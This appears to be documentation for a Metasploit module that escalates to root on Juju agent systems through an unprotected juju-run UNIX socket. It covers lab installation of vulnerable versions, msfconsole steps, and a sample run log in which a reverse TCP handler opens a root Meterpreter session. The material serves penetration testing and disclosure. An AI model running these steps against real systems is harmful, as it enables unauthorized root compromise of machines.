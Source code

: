 ## Description

  This module attempts to gain root privileges on Juju agent systems running the juju-run agent utility.

  Juju agent systems running agent tools prior to version 1.25.12, 2.0.x before 2.0.4, and 2.1.x before 2.1.3, provide a UNIX domain socket to manage software ("units") without setting appropriate permissions, allowing unprivileged local users to execute arbitrary commands as root.


## Vulnerable Application

  [Juju](https://juju.ubuntu.com/) is an open source application modeling tool designed for devops to deploy, configure, scale, and operate software on public and private clouds.

  * Homepage: https://juju.ubuntu.com/
  * Github: https://github.com/juju/juju

  This module has been tested successfully with Juju agent tools:

  * Versions 1.18.4, 1.25.5 and 1.25.9 on Ubuntu 14.04.1 LTS x86

  Deployed by Juju:

  * Versions 1.18.1-trusty-amd64 and 1.25.6-trusty-amd64 on Ubuntu 14.04.1 LTS x86_64


## Installation

  Two systems are required. The first runs Juju and the second runs the Juju agent tools.

  Ensure the client system has SSH installed and network accessible.

  The following installation instructions are for Ubuntu 14.04.1 LTS ("trusty").

  ```sh
  # List avilable juju packages
  apt-cache showpkg juju

  # Install a vulnerable package
  apt-get install juju-core=1.18.1-0ubuntu1

  # Generate a config file
  juju init
  ```

  Edit the `manual` section of the newly generated config file, adding the appropriate `bootstrap-host` and `bootstrap-user` for the client system, ensuring the appropriate `default-series` is set (`trusty` for Ububtu 14.x).

  ```
  manual:
    bootstrap-host: juju-client.local # Remote host
    bootstrap-user: user              # User for SSH access
    default-series: trusty            # Remote host OS series
  ```

  Switch to the `manual` environment and bootstrap the remote host specified above:

  ```sh
  juju switch manual
  juju bootstrap
  ```

  Once the bootstrapping is complete, check if it was successful. You should see a machine with ID# 0:

  ```sh
  juju stat
  ```

  Deploy any unit to the machine with ID# 0. Units can be found in the [Juju store](https://jujucharms.com/store).

  ```sh
  juju deploy zabbix-agent --to 0
  ```

  Check if it worked:

  ```sh
  watch juju stat
  ```


  Optionally, to test various versions of the juju agent utilities, the juju tools can be updated remotely. (Note: Downgrading is more difficult.)

  ```sh
  # You may or may not need to `set-env` the upstream tools URL:
  juju set-env agent-metadata-url=https://streams.canonical.com/juju/tools
  juju set-env agent-stream=proposed

  # Be careful to select a version which exists, otherwise bad things will happen.
  juju upgrade-juju --version 1.25.2
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/juju_run_agent_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf exploit(multi/handler) > use exploit/linux/local/juju_run_agent_priv_esc 
  msf exploit(linux/local/juju_run_agent_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/juju_run_agent_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Trying 3 units...
  [+] Unit "unit-zabbix-agent-1" uses a privileged socket
  [*] Writing '/tmp/.tp9oGmPSvx' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.130
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.130:43760) at 2018-01-13 12:33:48 -0500
  [+] Deleted /tmp/.tp9oGmPSvx

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.130
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

